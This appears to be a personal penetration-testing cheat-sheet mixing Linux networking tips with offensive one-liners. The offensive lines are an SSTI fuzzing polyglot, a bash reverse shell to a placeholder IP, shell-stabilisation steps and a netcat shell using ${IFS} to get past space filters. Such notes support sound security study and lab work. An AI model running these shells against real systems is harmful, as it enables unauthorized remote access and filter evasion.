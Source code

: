 - `dirsearch` is useful for content discovery
- `dirbuster` is with GUI
- In Parrot `sudo` is needed for ifconfig/iwconfig
- grep's **-A 1** option will give you one line after; **-B 1** will give you one line before; and **-C 1** combines both to give you one line both before and after, -1 does the same.
- `tcpdump -i tun0 icmp` - listening to external icmp ping
- default nginx server config location: `/etc/nginx/sites-available/default`
- To identify SSTI vulnerabilities, use a Polyglot payload composed of special characters commonly used in template expressions to fuzz the template
   `${{<%[%'"}}%\.`

## Display all active ports

You can use the `netstat` or `ss` command to display all active ports on a Linux system. Both commands provide information about network connections, listening ports, and various network statistics. Here's how you can use these commands to display active ports:

1. Using `netstat` (Note: `netstat` might not be available on all systems as it's being replaced by `ss`):

```bash
netstat -tuln
```

- `-t`: Display TCP ports
- `-u`: Display UDP ports
- `-l`: Show only listening ports
- `-n`: Show numerical addresses instead of resolving hostnames

2. Using `ss` (socket satistics) (a more modern replacement for `netstat`):

```bash
ss -tuln
```

- `-t`: Display TCP ports
- `-u`: Display UDP ports
- `-l`: Show only listening ports
- `-n`: Show numerical addresses instead of resolving hostnames

The output of either command will list all active ports that your system is listening on, along with the protocol (TCP or UDP), the local address (IP and port), and the state of the connection.

## Using Wget to download website:

```
wget -m -p -E -k -np www.example.com
```

```
-m, --mirror            Turns on recursion and time-stamping, sets infinite
                          recursion depth, and keeps FTP directory listings.
-p, --page-requisites   Get all images, etc. needed to display HTML page.
-E, --adjust-extension  Save HTML/CSS files with .html/.css extensions.
-k, --convert-links     Make links in downloaded HTML point to local files.
-np, --no-parent        Dont ascend to the parent directory when retrieving
                        recursively. This guarantees that only the files below
                        a certain hierarchy will be downloaded. Requires a slash
                        at the end of the directory, e.g. example.com/foo/.

```

Fully working PTY:

```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```

2 new tools to use
`reconscan`, `autorecon` 

```
nc${IFS}-l${IFS}-p1337${IFS}-e/bin/sh
```